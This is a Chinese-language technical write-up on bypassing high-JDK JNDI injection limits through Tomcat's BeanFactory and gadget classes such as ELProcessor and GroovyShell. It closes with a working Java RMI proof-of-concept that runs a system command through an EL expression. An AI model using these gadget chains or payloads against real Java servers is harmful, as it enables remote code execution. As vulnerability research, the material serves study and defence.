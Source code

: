 加载远程对象时，ref 不能为空，trustURLCodebase 无法远程更改，想要绕过这里的限制，就需要从 `ref.getFactoryClassLocation()` 下手。参考 [JNDI 注入漏洞的前世今生 - evilpan](https://evilpan.com/2021/12/13/jndi-injection/#local-class) 文章中的分析，要满足该函数返回 null，**需要对应的工厂类为本地代码，即指定一个存在于目标 classpath 中的工厂类名称，交由这个工厂类去实例化对象。**

可用的利用链主要围绕以下的几个工厂类完成：
1. **org.apache.naming.factory.BeanFactory** 可达成 RCE
2. **org.apache.catalina.users.MemoryUserDatabaseFactory** 可达成 XXE 或 RCE
3. **org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory** 可达成 RCE


### BeanFactory 利用链（tomcat < 8.5.79）

org.apache.naming.factory.BeanFactory 是 Apache Tomcat 中的一个 JNDI 对象工厂类，用于创建对象并将其绑定到 JNDI 环境中。这个类的 getObjectInstance 函数可以根据传入的参数，实例化任意类并调用其任意方法，部分代码如下所示。

```java
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws NamingException {
            ...
                    Object bean = beanClass.getConstructor().newInstance();
                        ...
                            value = (String)ra.getContent();
                            Object[] valueArray = new Object[1];
                            Method method = (Method)forced.get(propName);
                            if (method != null) {
                                valueArray[0] = value;

                                try {
                                    method.invoke(bean, valueArray);
            ....
```
参考 [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/) 这篇文章的分析，getObjectInstance 方法会根据 forceString 的内容按照`,`逗号分割成多个要执行的方法。再按`=`分割成 param 和 propName，接着会根据 propName 作为方法名称去反射获取一个参数类型是 String 类型的方法，最后反射调用该方法，并传入param 对应的参数值。

所以，按照这个原理，寻找合适的利用类需要满足如下的几个条件：
1. JDK或者常用库的类
2. 有 public 修饰的无参构造方法
3. public 修饰的只有一个 String.class 类型参数的方法，且该方法可以造成漏洞

按照这些条件，目前探索出来的利用链有如下的几种：
1. javax.el.ELProcessor/groovy.lang.GroovyShell (RCE)
2. javax.management.loading.MLet (RCE)
3. groovy.lang.GroovyClassLoader (RCE)
4. org.yaml.snakeyaml.Yaml (RCE)
5. com.thoughtworks.xstream.XStream (RCE)
6. org.mvel2.sh.ShellSession (RCE)
7. com.sun.glass.utils.NativeLibLoader (RCE)
8. org.h2.store.fs.FileUtils (目录创建)

下面是记录浅蓝师傅给出的利用链。

#### ELProcessor
利用如下的 payload，可以在 BeanFactory.getObjectInstance 函数中调用 javax.el.ELProcessor.eval 方法，通过 EL 表达式执行系统命令。
```java
    public static void AttackWithELProcessor() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['mate-calc']).start()\")"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```